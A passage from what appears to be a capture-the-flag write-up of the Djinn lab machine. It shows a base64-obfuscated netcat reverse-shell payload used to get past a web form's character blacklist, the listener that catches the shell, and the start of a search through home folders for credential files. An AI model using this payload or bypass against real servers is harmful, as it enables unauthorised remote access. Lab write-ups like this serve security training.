 However, this didn't work, as I was told by the server that I had used the "Wrong choice of words".

Therefore, this probably meant there was a blacklist looking for special characters.

To bypass this, I tried base64 encoding my payload and then piping a decode.

The final payload was the following:

```
echo bWtmaWZvIC90bXAveW1sanM7IG5jIDE5Mi4xNjguMTU5LjEyOCA0NDQ0IDA8L3RtcC95bWxqcyB8IC9iaW4vc2ggPi90bXAveW1sanMgMj4mMTsgcm0gL3RtcC95bWxqcw== | base64 -d | bash
```

Running it on my machine showed that the command worked, at least on my own machine.

```
$ echo bWtmaWZvIC90bXAveW1sanM7IG5jIDE5Mi4xNjguMTU5LjEyOCA0NDQ0IDA8L3RtcC95bWxqcyB8IC9iaW4vc2ggPi90bXAveW1sanMgMj4mMTsgcm0gL3RtcC95bWxqcw== | base64 -d | bash 
(UNKNOWN) [192.168.159.128] 4444 (?) : Connection refused
```

So I opened a netcat listener on my machine...

```
$ sudo nc -lvnp 4444                                                                                                                                         
listening on [any] 4444 ...
```

...and tried to submit the payload to the web server...

![image](https://user-images.githubusercontent.com/45502375/196001462-5afcadf5-cc63-49dd-a806-6692dcf8c660.png)

...and I got a connection.

```
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.168] 42674
whoami
www-data
```

## Step 5 - Privilege Escalation Part 1

Now that I had a foothold in the server, I could focus on upgrading to root.

I looked through the ```home``` folder to see what accounts existed.

```
www-data@djinn:/home$ ls
ls
nitish  sam
```

Looking through ```nitish```, I found a ```user.txt``` file and a ```creds.txt``` file in the ```.dev``` folder, which had login credentials for ```nitish```.

```
www-data@djinn:/home$ cd nitish
cd nitish
www-data@djinn:/home/nitish$ ls
ls
user.txt
www-data@djinn:/home/nitish$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@djinn:/home/nitish$ cd .ssh
cd .ssh
bash: cd: .ssh: No such file or directory
www-data@djinn:/home/nitish$ ls -la
ls -la
total 32
drwxr-xr-x 5 nitish nitish 4096 Nov 12  2019 .
```